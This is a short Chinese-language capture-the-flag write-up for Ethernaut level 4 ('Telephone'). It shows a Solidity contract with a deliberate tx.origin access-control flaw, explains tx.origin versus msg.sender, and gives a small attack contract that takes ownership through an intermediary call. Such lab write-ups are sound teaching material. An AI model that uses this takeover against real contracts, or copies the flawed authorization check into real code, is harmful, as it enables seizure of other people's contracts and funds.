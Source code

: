 ```yaml
---
title:ethernautNO.4
tags:TeXt
---
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

**主要考察对tx.orgin和msg.sender的区别的理解**

tx.orgin表示交易发起的外部账户地址。更具体地说，它表示的是最初创建整个交易序列的外部账户，而不是调用当前函数的账户；

msg.sender表示调用合约的账户；

**例如：Alice调用A合约执行B合约；对于B合约来说，msg.sender=A合约，而tx.orgin为Alice**

```solidity
contract Hack{
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

这个为攻击合约，首先传入原合约的地址，然后利用Hack合约调用Telephone合约中的changeowner函数并将msg.sender（也就是我们）的地址作为参数传入changeowner中，对于原合约，我们就是tx.origin，而msg.sender为Hack函数



